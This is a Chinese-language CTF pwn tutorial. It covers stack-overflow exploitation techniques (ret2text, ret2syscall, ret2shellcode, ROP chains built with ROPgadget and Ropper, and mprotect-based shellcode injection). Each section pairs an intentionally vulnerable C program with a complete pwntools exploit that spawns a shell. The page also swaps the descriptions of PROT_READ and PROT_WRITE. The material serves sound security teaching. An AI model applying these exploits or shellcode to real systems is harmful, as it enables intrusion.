







# 自救指南
# 原理篇

## ret2text

### 介绍

ret2text是ROP系列中最简单的一类题型, 它的一个本质就是控制程序流去执行程序本身所带的代码片段, 继而获取flag或shell
主要分为三个大步骤
1. 寻找程序的溢出点
2. 寻找程序内可利用的代码片段
3. 通过溢出控制程序流去执行可利用片段

### ret2text

熟悉这一题型最好的方法就是通过实例来讲解, 这里以一个x64的题目来分析

```c
#include<stdio.h>
#include<stdlib.h>

void hint() {
	system("/bin/sh");
}

int main() {
	char buf[0x10];
	printf("Who are you?\n");
	scanf("%s", buf);
	return 0;
}
// gcc ret2text_basic.c -o ret2text_basic -fno-stack-protector
```

虽然hint函数没有被调用, 但是编译器还是会给它分配空间, 而不是将那段代码删除


而hint函数里执行的代码就是创建一个"/bin/sh"进程, 也就是所谓的获取到shell, hint函数满足了三大步骤的第二个步骤可利用代码段

接着分析main函数, main函数的buf变量是一个局部变量, 所以它是存储在栈里, 这里的一个栈布局为


而scanf函数的"%s"格式化控制符没有指定最多输入字节数, 也就是说可以无限制输入字节, 那么就会造成栈溢出, 溢出的一个后果就是可以覆盖main函数的函数返回地址, 可以将这个返回地址填充为任意可执行片段去执行, 这样三大步骤的第一个步骤溢出点就找到了, 注意需要计算变量buf到函数返回地址之间有多少个无关字节, 需要用随意字符去填充
最后要做的就是控制程序的执行流, 既然我们可以覆盖函数返回地址为任意可执行片段地址跳转去执行, 那么可以直接填充为hint函数地址跳转过去拿到shell


当main函数执行到ret指令时, 就会返回跳转到hint函数去执行

#### Exploit

```python
from pwn import*

o = process('./ret2text_basic')
 
hint = 0x4005D6
payload = 'a'*0x18 + p64(hint)
o.sendline(payload)

o.interactive()
```

在调用scanf函数下一条指令处设置断点, 看看执行情况


接着执行到ret指令


ret指令会跳转到当前栈顶的那个地址去接着执行代码


最后就会执行system("/bin/sh")获取到shell


### 技巧

1.  哪些函数可以获取到shell或者flag?

一般来说ret2text都是通过system函数去创建新进程来获取shell, 除了system("/bin/sh")可以获取shell外, system("sh"), system("$0")也都可以获取到shell
也有的是用execve系统调用, 类似于execve("/bin/sh", 0, 0)
再有就是不给shell, 只用open打开flag文件读取出来

2.   哪些函数可以造成溢出?

gets函数是最经典的无限制输入, 还有就是scanf的%s格式化控制符, 或者read函数输入的最大字节数超过buffer大小也会造成溢出
还有的人喜欢用循环来输入, 循环次数不对, 然后造成溢出也有这种情况

3.   如何计算变量到函数返回地址之间的无关字数?

这个首先需要找到变量地址和函数返回地址, 一种方法就是看IDA中的相对栈, 双击变量就可以查看


s是rbp或ebp, r是函数返回地址, 变量地址看具体情况, 我们这里示例的变量地址就是var_10, 所以中间的无关字节就是0x10+ebp或rbp栈帧大小=0x18
还有就是汇编学的好的话, 看汇编可以直接看出来



这里的rbp+var_10就是buf变量的相对地址, 而var_10的值是-0x10, 所以等同于rbp-0x10, 而rbp+8的位置就是函数返回地址, 所以无关字节为rbp+8-(rbp-0x10) = 0x18 [x86一样的道理, 就是栈帧大小不一样]
再次者, 可以通过gdb调试来看, 把断点设在scanf函数调用处



pwndbg会显示函数参数是什么, 而scanf第二个参数就是buf变量的地址


而函数返回地址就在rbp的前一个栈帧
再说一个常识, 程序调用其他函数都是通过call指令来调用, call指令会将call指令的下一条指令地址压入栈作为被调用函数的函数返回地址, 当函数执行完成就会返回跳转去执行call指令的下一条指令, 所以当你不确定你找的是不是函数返回地址, 那么你就去找那条call指令的下一条指令地址, main函数的函数返回地址通常为__libc_start_main+xxx
个人觉得通过rbp/ebp定位更快一点

### 推荐练习

-   https://buuoj.cn/challenges#bbys_tu_2016
-   https://buuoj.cn/challenges#ciscn_2019_n_1
-   https://buuoj.cn/challenges#jarvisoj_level0

### 参考文章

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2text

## ret2syscall

### 介绍

ret2syscall用的是系统调用的知识, 什么是系统调用?

系统调用是操作系统提供给用户的资源接口, 可以通过系统调用来操作资源, 像平时用的库函数本质执行到最后都是执行系统调用, 只不过都被库函数给封装了

而在系统调用中有一个特殊的系统调用: execve, system函数执行到最后就是调用execve, 所以执行system("/bin/sh")就相当于执行execve("/bin/sh", 0, 0), ret2syscall就是溢出跳转去执行execve("/bin/sh", 0, 0)

>   沙盒机制限制execve系统调用的情况作为拓展

### 系统调用

 具体来讲解一下系统调用

系统调用有三大要素: 参数, 系统调用号和中断指令. 系统调用的参数传递和用户函数的参数传递不太一样, 系统调用参数都是依靠寄存器来传参, x86平台和x64平台用的寄存器不一样

-   x86平台: ebx, ecx, edx, esi, edi
-   x64平台: rdi, rsi, rdx, r10, r8, r9

系统调用号的定义在/usr/include/asm/unistd.h中

-   x86平台execve定义: #define __NR_execve 11, 然后传入eax
-   x64平台execve定义: #define __NR_execve 59, 然后传入rax

其他的可以直接去查

中断指令x64平台的是对x86平台的一种封装, 运行效率更高

-   x86平台中断指令: int 0x80
-   x64平台中断指令: syscall

接着来讲一下execve("/bin/sh", 0, 0)的执行过程

1.  传参: 将必要的参数传递给对应的寄存器. x86为ebx ← "/bin/sh", ecx ← 0, edx ← 0; x64为rdi ← "/bin/sh", rsi ← 0, rdx ← 0
2.  传入系统调用号: x86为 eax ← 11; x64为 rax ← 59
3.  执行中断

最后用内联汇编(x86)来执行看看, 这里只用最简单的pop和push指令来展示, 用其他指令也可以

```c
char *p = "/bin/sh";
int main() {
    __asm(
        "push p\n"
        "pop  ebx\n"
        "push 0\n"
        "pop ecx\n"
        "push 0\n"
        "pop edx\n"
        "push 11\n"
        "pop eax\n"
        "int 0x80"
    );
}
// gcc asm.c -m32 -masm=intel -o asm
```


### execve

execve是在父进程中fork一个子进程

函数原型为

```
#include<unistd.h>
int execve(const char* filename, char* const argv[], char *const envp[]);
```

参数filename字符串代表的是执行文件的路径, 第二个参数是利用指针数组来传递给执行文件, 并且以空指针结束, 最后一个参数是传递给执行文件新环境变量数组

举一个例子

```c
#include<unistd.h>


int main() {
    char *argv[] = {"ls", "-al", "/home", 0};
    char *envp[] = {0};
    execve("/bin/ls", argv, envp);
    return 0;
}
// gcc execve.c -o execve
```


参考: https://baike.baidu.com/item/execve/4475693?fr=aladdin

### ret2syscall

```c
#include<stdio.h>
#include<unistd.h>
char buf[] = "/bin/sh";

void hint() {
    __asm("pop ebx\npop eax\nret");
    __asm("int 0x80");
}

void run() {
    char buf[10];
    printf("Who are you?");
    read(0, buf, 0x50);
    __asm("xor ecx, ecx\nxor edx, edx");
}

int main() {
    run();
    return 0;
}
// gcc ret2syscall.c -m32 -masm=intel -fno-stack-protector -o ret2syscall
```

判断一道题是不是ret2syscall的题型最简单的方法是看程序里有没有中断指令, 没有基本就不是(并不绝对, 可以调用内核里的中断指令, 做多了就能看出来了)

可以直接用ROPgadget工具来搜寻有没有

```shell
ROPgadget --binary ./pwn --only "int"    # x86
ROPgadget --binary ./pwn --only "syscall"    # x64
```

接着就需要找到对应的指令将参数和系统调用号传递给对应的寄存器, 看个人汇编经验, 一般找的都是"pop|ret"这种指令

```shell
ROPgadget --binary ./pwn --only "pop|ret"
```

最后溢出布局栈就可以拿到shell

以一道x86题来举例


read函数溢出


hint函数中存在int 0x80中断指令, 也可以用ROPgadget来查找中断指令



接下来就是找传参的指令


只找到ebx和eax的, ecx和edx没找到, 但是可以发现在run函数里有两条指令将ecx和edx置为0


所以基本不需要我们去管, 执行ret指令的时候, ecx和edx已经为0

然后找程序里是否有"/bin/sh"字符串



参数都准备齐了, 最后只需要栈布局就行


执行完pop指令就会ret去执行int 0x80指令

#### Exploit

```python
from pwn import*


o = process('./ret2syscall')
bin_sh = 0x0804a020
pop_ebx_eax_ret = 0x0804843e
int_80 = 0x08048441
payload = 'a'*18 + 'a'*4    # 覆盖变量和ebp
payload += p32(pop_ebx_eax_ret) + p32(bin_sh) + p32(11)
payload += p32(int_80)
o.sendline(payload)
o.interactive()
```

直接在run函数的ret指令处下断点, 看栈是否和预期结果一样


一样的, 最后执行完即可拿到shell


中间的跳转执行过程可以自己去单步调试看看


### 参考

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2syscall

## ret2shellcode

### 介绍

该类题型和内存段执行权限和EIP/RIP寄存器有关, 主要过程就是将shellcode注入到一段有可执行权限的内存中, 然后控制EIP/RIP指针指向这段内存, 也就是控制程序流程去执行注入的shellcode, 最后通过这段shellcode执行获取到shell


### shellcode

首先来看一下shellcode的定义

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名

参考: https://baike.baidu.com/item/shellcode/4051847?fr=aladdin

对于pwn来说, shellcode就是获取flag的代码, 比如execve("/bin/sh", 0, 0)获取shell或者open("flag"), read(fd, buf, 0x50),write(1, buf, 0x50)将flag内容读取出来, 但是无论哪种方式, 最好都不要用到库函数, 而是去用系统调用, 因为库函数你得知道库的加载基地址才能用, 这样一来, shellcode就会显得非常的臃肿, 而且不方便

pwn中的shellcode编写通常是先将汇编写出来, 再用工具将汇编直接转换为机器码

例如 x86汇编

```c
; execve("/bin/sh", 0, 0)
push 0x68732f  ; 将'/sh'压入栈
push 0x6e69622f  ; 将'/bin'压入栈
push esp  ; 将当前esp指针压入栈, 也就是指向'/bin/sh'字符串的指针
pop ebx  ; 将第一个参数'/bin/sh'字符串指针存入ebx
xor ecx, ecx
xor edx, edx  ; 将第二第三个参数归零
mov eax, 11  ; 将系统调用号存入eax
int 0x80  ; 中断执行execve
```

然后pwntools内置asm函数可以将汇编代码转换为机器码(或者用pwntools工具asm)


这一串16进制数字就是机器码

pwntools中提供了很便捷的shellcode生成工具, 但是首先需要指定平台和操作系统

```python
context.os = "linux"
context.arch = "i386"  # x64的为amd64
# 或者另一种申明方式
context(os="linux", arch="i386")
```

然后pwntools中有一个模块叫做shellcraft可以生成shellcode

```python
shellc = shellcraft.sh()
```

最后用asm函数转换为机器码

```python
shellc = asm(shellc)
```

这就是完整的一个流程

### EIP/RIP控制

汇编当中有很多指令都可以控制EIP/RIP, 比如jmp类, ret指令和call指令

在pwn中有一些常用的控制方法

-   jmp esp: 这个需要shellcode注入到栈里, 这跳指令就会很方便
-   ret: 需要将shellcode地址填入ret对应栈帧处, 通常shellcode地址都是固定地址
-   call eax(或其他寄存器)\jmp eax(或其他寄存器): 将shellcode地址填入寄存器中, 然后跳转过去, 通常shellcode地址也是固定地址

shellcode地址不一定是必须要固定地址, 需要调试来看, 灵活应变

### ret2shellcode

```c
#include<stdio.h>
#include<unistd.h>

void hint() {
	__asm("jmp esp");
}

void run() {
	char buf[0x10];
	printf("Who are you?");
	read(0, buf, 0x50);
}

int main() {
	run();
	return 0;
}
// gcc ret2shellcode.c -m32 -z execstack -fno-stack-protector -masm=intel -o ret2shellcode
```


ret2shellcode最简单的判别方法就是看有没有加NX保护, NX保护开启就说明数据段, 栈之类的都不可执行(也有可能是其他做法, 做多就看出来了)

这里以一道x86栈shellcode注入来分析


read栈溢出


NX保护也没有开启


hint函数里面还包含一个jmp esp指令

那么就可以判断是shellcode注入了, 可以直接用pwntools的shellcode生成函数, 主要考虑的就是如何跳转到栈中的shellcode, 其实也挺简单的


当执行到ret时, 就会跳转到jmp esp指令处去执行, 同时当前esp会指向shellcode处, 这样执行jmp后就会控制EIP到shellcode执行

#### Exploit

```python
from pwn import*
context(os="linux", arch="i386")
o = process('./ret2shellcode')


jmp_esp = 0x804843C
shellc = asm(shellcraft.sh())
payload = 'a'*28 + p32(jmp_esp) + shellc
o.sendline(payload)
o.interactive()
```

将断点设置在run函数的ret处


可以看到jmp esp跳转的地方就是shellcode注入的地方, 执行完shellcode即可拿到shell


### 参考

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2shellcode

## ROPChain

### 介绍

会在做题的时候遇到一类静态编译的题型, 静态编译有一个问题很大, 就是gadget太多了, 这就有很大的利用空间, 比如mprotect修改权限shellcode注入之类的, 还有一个就是这里的ropchain, ropchain本质来说就是程序中存在的一些指令, 然后通过不断执行跳转指令达到获取shell的目的, 现在有很多自动化搜寻ropchain的工具, 比如说ROPgadget或者Ropper

>   注意: 这种做法只适合输入无限制那种, 如果是有溢出字节限制的可能要改方法

### ropchain

用一道题来分析这个题型

```c
#include<stdio.h>

int main() {
    char buf[0x10];
    printf("Who are you?\n");
    gets(buf);
    return 0;
}
// gcc ropchain.c -o ropchain -fno-stack-protector -no-pie --static
```

main函数主要逻辑就是gets溢出buf, 然后可以覆盖函数返回地址


buf距离函数返回地址的offset为0x18

接下来就可以用工具一把梭了

#### ROPgadget

命令为

```sh
ROPgadget --binary elf --ropchain
```


最后一大堆的东西就是我们要溢出覆盖的内容

但是要做一些处理, python首先就是缩进敏感, 复制这些代码, 需要将前面的空格都去掉, 并且pack需要写为完整的`struct.pack` , 同时导入struct包, 整合后的脚本为

##### Exploit

```python
from pwn import*
from struct import pack
o = process("./ropchain")

p = 'a'*0x18
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x00000000004005af) # pop rax ; ret
p += '/bin//sh'
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x00000000004006a6) # pop rdi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000403992) # pop rdx ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x000000000040120c) # syscall
o.sendline(p)
o.interactive()
```


#### Ropper

ROPgadget搜寻的chain有点太长了, 所以不是很好, 但是Ropper生成的就比较短

命令为

```sh
ropper -f elf --chain "execve cmd=/bin/sh"
```


这个要做处理的就比较少, 只要把pack前加上struct就行

脚本为

##### Exploit

```python
from struct import pack
from pwn import*

p = lambda x : struct.pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 9f72ca947866add6ab0baafe740a536729f891f13847b44c4f3d7661c89a1be6
rebase_0 = lambda x : p(x + IMAGE_BASE_0)
o = process('./ropchain')

rop = 'a'*0x18
rop += rebase_0(0x000000000000d95b) # 0x000000000040d95b: pop r13; ret; 
rop += '//bin/sh'
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000067df9) # 0x0000000000467df9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000d95b) # 0x000000000040d95b: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000067df9) # 0x0000000000467df9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010053) # 0x0000000000410053: pop rsi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000003992) # 0x0000000000403992: pop rdx; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x00000000000005af) # 0x00000000004005af: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000074a25) # 0x0000000000474a25: syscall; ret; 
#print(rop)
o.sendline(rop)
o.interactive()
```



### 总结

Ropper需要自己装, ROPgadget在装pwntools的时候就安装好了, 不需要操心, 各有优点吧, 有兴趣可以把chain执行哪些代码自己研究, 以后也可以自己写chain

## mprotect shellcode注入

### 介绍

前一篇[ROPChain](#ROPChain)讲过有时候会遇到一些静态编译的题目, 但是输入如果受到字节限制, 那么就不能再采用ROPChain那种方法来做, 可以尝试搜寻程序中的mprotect函数地址, 然后通过mprotect修改数据段的可执行权限, 接着注入shellcode, 最后跳转去执行这段shellcode获取shell

### mprotect

mprotect函数作用是修改某一段内存的权限

函数原型为

```c
#include<unistd.h>
#include<sys/mman.h>
int mprotect(const void *start, size_t len, int prot);
```

mprotect把从start开始的, 长度为len的一段内存, 修改权限为prot指定的值

prot有几种值:

-   PROT_READ : 表示内存段的内容可写, 转换为数字为1
-   PROT_WRITE : 表示内存段的内容可读, 转换为数字为2
-   PROT_EXEC : 表示内存段的内容可执行, 转换为数字为4
-   PROT_NONE : 表示内存段中的内容根本不可访问, 转换为数字为0

之间可以用或运算`|`进行组合

顺便讲一下mprotect返回值的含义: 返回0表示执行成功, 返回-1表示失败

需要注意的是, mprotect修改的内存区间必须包含整个内存页(4K, 0x1000), 也就是说start必须是内存页起始的地址, 并且区间长度必须len必须是内存页的整数倍

我们以一个例子来讲, 如果我们从将bss段开始0x100个字节的内存区间修改权限为7(可读可写可执行), 看它的返回结果是什么样的

```c
#include<stdio.h>
#include<unistd.h>
#include<sys/mman.h>
extern char edata;	// edata是data段的末尾, bss段的开始, 是库自带的一个变量
int main() {
    	printf("bss address : %p\n", &edata);
        int result = mprotect(&edata, 0x100, 7);
        printf("%d\n", result);
        return 0;
}
// gcc mprotect_test.c -o mprotect_test -no-pie
```


发现bss开始并不和内存页对齐, 而且0x100也不是内存页的倍数, 所以根本就不会执行成功, 如果把bss地址减去0x38刚好就和内存页对齐了, 试一试

```c
#include<stdio.h>
#include<unistd.h>
#include<sys/mman.h>
extern char edata;	// edata是data段的末尾, bss段的开始, 是库自带的一个变量
int main() {
    	printf("bss address : %p\n", &edata-0x38);
        int result = mprotect(&edata-0x38, 0x100, 7);
        printf("%d\n", result);
        return 0;
}
// gcc mprotect_test.c -o mprotect_test -no-pie
```



gdb看它的一个内存权限变化


这是执行mprotect之前的权限


这是执行mprotect之后的权限, 可以发现一个问题, 虽然len我们设置的不是内存页的倍数, 但是它还是自动将整个内存页的权限都设置为7了, 所以现在bss段就是具备可执行权限的内存了, 可以注入shellcode, 然后跳转过来执行

### mprotect shellcode

以一个题目来讲解

```c
#include<stdio.h>
#include<unistd.h>

int main() {
    char buf[0x10];
    printf("Who are you?\n");
    read(0, buf, 0x60);
    return 0;
}
// gcc mprotect_shellcode.c -o mprotect_shellcode -fno-stack-protector -no-pie --static
```

很简单的溢出漏洞, 但是肯定不支持ROPChain那种方法, 但是可以从程序中找到mprotect函数


这道题中的所有函数地址都是固定的, 所以可以溢出覆盖来构造mprotect的rop链, 首先需要找一块可写内存来可供写入shellcode


这里可以直接选这个区, 地址是固定的, 比较好利用, 由于是64位程序, 所以还需要搜寻一波`pop|ret`


mprotect需要三个参数, 所以这三个刚刚好

```python
from pwn import*

o = process('./mprotect_shellcode')
elf = ELF('./mprotect_shellcode')

mprotect_addr = elf.sym['mprotect']
main = elf.sym['main']
pop_rdi = 0x00000000004006a6
pop_rsi = 0x000000000040ffa3
pop_rdx = 0x0000000000448be5

payload = 'a'*0x18 # 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0x6bc000) # 第一个参数, heap区起始地址
payload += p64(pop_rsi) + p64(0x1000)	# 第二个参数, len
payload += p64(pop_rdx) + p64(7)		# 第三个参数, 权限可读可写可执行
payload += p64(mprotect_addr) + p64(main)	# 执行mprotect, 并返回main函数
o.sendline(payload)

o.interactive()
```


可以看到这段的权限已经改过来了, 然后就可以构造read的rop链, 注入shellcode跳转了

#### Exploit

```python
from pwn import*
context(os='linux', arch='amd64')

o = process('./mprotect_shellcode')
elf = ELF('./mprotect_shellcode')

mprotect_addr = elf.sym['mprotect']
read_addr = elf.sym['read']
main = elf.sym['main']
pop_rdi = 0x00000000004006a6
pop_rsi = 0x000000000040ffa3
pop_rdx = 0x0000000000448be5

payload = 'a'*0x18 # 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0x6bc000) # 第一个参数, heap区起始地址
payload += p64(pop_rsi) + p64(0x1000)	# 第二个参数, len
payload += p64(pop_rdx) + p64(7)		# 第三个参数, 权限可读可写可执行
payload += p64(mprotect_addr) + p64(main)	# 执行mprotect, 并返回main函数
o.sendline(payload)


payload = 'a'*0x18	# 覆盖buf和rbp
payload += p64(pop_rdi) + p64(0)		# 第一个参数, 标准输入
payload += p64(pop_rsi) + p64(0x6bc000)	# 第二个参数, 写入地址
payload += p64(pop_rdx) + p64(0x100)	# 第三个参数, 写入的字节数
payload += p64(read_addr) + p64(0x6bc000)	# 执行read写入shellcode后跳转去执行
o.sendline(payload)

shellc = asm(shellcraft.sh())
o.sendline(shellc)	# 写入shellcode

o.interactive()
```


可能主要就是read那个rop链和shellcode注入那边有点问题, 可以调试来看一下

将断点设置在read rop链的返回执行read处


可以看到这时候shellcode注入处还都是空的, 继续执行read函数 


执行到read函数ret指令处可以看到它将返回到shellcode注入处去执行, 这时候shellcode已经通过`o.sendline(shellc)`注入到了这段区域




继续执行即可获取shell


### 参考

-   https://xz.aliyun.com/t/7233
-   https://github.com/firmianay/CTF-All-In-One/blob/master/doc/4.11_mprotect.md

# 工具篇


## ROPgadget

### 介绍

>   GitHub : https://github.com/JonathanSalwan/ROPgadget

此工具可以在二进制文件中gadget来辅助ROP利用,

### 安装

```sh
$ pip install capstone ROPgadget
```


## Ropper

### 介绍

>   GitHub :  https://github.com/sashs/Ropper

Ropper有一些功能和ROPgadget类似, 但是功能却比ROPgadget强大

### 安装

```sh
$ pip3 install capstone keystone-engine filebytes
$ python3 setup.py install
```

